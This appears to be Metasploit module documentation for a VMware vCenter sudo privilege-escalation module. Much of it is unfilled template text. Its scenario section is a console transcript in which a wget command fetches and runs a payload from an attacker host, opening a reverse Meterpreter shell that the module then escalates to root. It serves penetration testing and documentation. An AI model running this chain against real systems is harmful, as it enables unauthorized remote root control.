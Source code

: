 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `run`
1. You should get a shell.

## Options
List each option and how to use it.

### Option Name

Talk about what it does, and how to use it appropriately. If the default value is likely to change, include the default value here.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### VMware vCenter Server Appliance 8.0.0.10000 (VMware-VCSA-all-8.0.0-20519528.iso)

#### `pod` user

Start our first handler

```
[msf](Jobs:0 Agents:0) > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set lhost 2.2.2.2
lhost => 2.2.2.2
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set srvport 8181
srvport => 8181
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set target 7
target => 7
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Using URL: http://2.2.2.2:8181/wS8RErnHVLh
[*] Server started.
[*] Run the following command on the target machine:
wget -qO 5Y0wnQU5 --no-check-certificate http://2.2.2.2:8181/wS8RErnHVLh; chmod +x 5Y0wnQU5; ./5Y0wnQU5& disown
```

Setup, SSH in, start a shell, allow `pod` login access, then change user and start our payload.

```
PS C:\Users\h00die> ssh root@1.1.1.1

VMware vCenter Server Appliance 8.0.0.10000

(root@1.1.1.1) Password:
Connected to service

    * List APIs: "help api list"
    * List Plugins: "help pi list"
    * Launch BASH: "shell"

Command> api com.vmware.appliance.version1.system.version.get
Version:
   Version: 8.0.0.10000
   Product: VMware vCenter Server
   Build: 20519528
   Type: ''
   Summary: VMware vCenter Server 8.0
   Releasedate: October 11, 2022
   Installtime: ''

Command> shell
Shell access is granted to root
root@localhost [ ~ ]# usermod -s /bin/bash pod
/usr/sbin/usermod.bk -s /bin/bash pod
root@localhost [ ~ ]# su pod
pod@localhost [ /root ]$ cd /tmp
pod@localhost [ /tmp ]$ wget -qO smswhnVK --no-check-certificate http://2.2.2.2:8181/xLaIAPnwiuPr9; chmod +x smswhnVK; ./smswhnVK& disown
[1] 22325
```

Priv Esc

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > getuid
Server username: pod
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/local/vcenter_sudo_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/local/vcenter_sudo_lpe) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/local/vcenter_sudo_lpe) > set verbose true
verbose => true
[msf](Jobs:1 Agents:1) exploit(linux/local/vcenter_sudo_lpe) > set lport 9879
lport => 9879
[msf](Jobs:1 Agents:1) exploit(linux/local/vcenter_sudo_lpe) > set autocheck false
autocheck => false
[msf](Jobs:1 Agents:1) exploit(linux/local/vcenter_sudo_lpe) > run

[*] Started reverse TCP handler on 2.2.2.2:9879 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Utilizing VMWARE_PYTHON_PATH exploitation method for pod user.
[*] Creating directory /tmp/appliance
[*] /tmp/appliance created
[*] Writing '/tmp/appliance/9OP6wIQJl9' (250 bytes) ...
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 1.1.1.1
[+] Deleted /tmp/appliance/9OP6wIQJl9
[+] Deleted /tmp/appliance/__init__.py
[+] Deleted /tmp/appliance
[*] Meterpreter session 2 opened (2.2.2.2:9879 -> 1.1.1.1:34894) at 2024-11-18 07:24:13 -0500

(Meterpreter 2)(/tmp) > getuid
Server username: root
(Meterpreter 2)(/tmp) > background
[*] Backgrounding session 2...
[msf](Jobs:1 Agents:2) exploit(linux/local/vcenter_sudo_lpe) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > getuid
Server username: pod
```
